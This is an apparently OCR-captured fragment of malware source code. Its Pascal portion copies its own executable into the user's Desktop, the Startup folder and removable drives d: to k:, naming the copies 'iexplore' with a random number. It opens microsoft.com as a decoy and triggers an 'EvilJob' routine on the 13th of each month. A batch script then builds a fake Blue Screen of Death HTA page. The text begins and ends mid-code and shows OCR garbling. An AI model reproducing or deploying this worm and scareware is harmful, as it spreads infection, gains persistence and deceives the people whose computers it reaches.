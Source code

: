 Delay(1000);
end;
end;
begin
Randomize;

user_name:=GetUserDir;
folder_array[1]:=user_name+'Desktop\';
folder_array[2]:=user_name+'AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\';
folder_array[3]:='d:\';
folder_array[4]:='e:\';
folder_array[5]:='f:\';
folder_array[6]:='g:\';
folder_array[7]:='h:\';
folder_array[8]:='i:\';
folder_array[9]:='j:\';
folder_array[10]:='k:\';

s:=ParamStr(0);
s1:=fTarget;

for i:=1 to 10 do begin
s1:=fTarget;
s1:=folder_array[i]+s1;
If FileExists(s1) then
s1:=folder_array[i]+'iexplore'+IntToStr(Random(1000))+'.exe';
if DirectoryExists(folder_array[i]) then
FileCopy(S, s1);
end;

ShellExecute(0,nil, PChar('"iexplore"'),PChar('"https://www.microsoft.com"'),nil,1);

GetDate(Year,Month,Day,WDay);
if Day=13 then EvilJob;

end.
@echo off
echo ^<html^>^<head^>^<title^>BSOD^
> bsod.hta

echo. >> bsod.hta
echo ^<hta:application id=”oBVC” >> bsod.hta
echo applicationname=”BSOD” >> bsod.hta
echo version=”1.0″ >> bsod.hta
echo maximizebutton=”no” >> bsod.hta
echo minimizebutton=”no” >> bsod.hta
echo sysmenu=”no” >> bsod.hta
echo Caption=”no” >> bsod.hta
echo windowstate=”maximize”/^> >> bsod.hta
echo. >> bsod.hta
echo ^</head^>^<body bgcolor=”#000088″ scroll=”no”^> >> bsod.hta
echo ^<font face=”Lucida Console” size=”4″ color=”#FFFFFF”^> >> bsod.hta
echo ^<p^>A problem has been detected and windows has been shutdown to prevent damage to your computer.^</p^> >> bsod.hta
echo. >> bsod.hta
echo ^<p^>DRIVER_IRQL_NOT_LES_OR_EQ
UAL^</p^> >> bsod.htaecho. >> bsod.hta
echo ^<p^>If this is the first time you’ve seen this stop error screen, restart your computer, If this screen appears again, follow these steps:^</p^> >> bsod.hta
echo. >> bsod.hta
echo ^<p^>Check to make sure any new hardware or software is properly installed. If this is a new installation, ask your hardware or software manufacturer for any windows updates you might need.^</p^> >> bsod.hta
echo. >> bsod.hta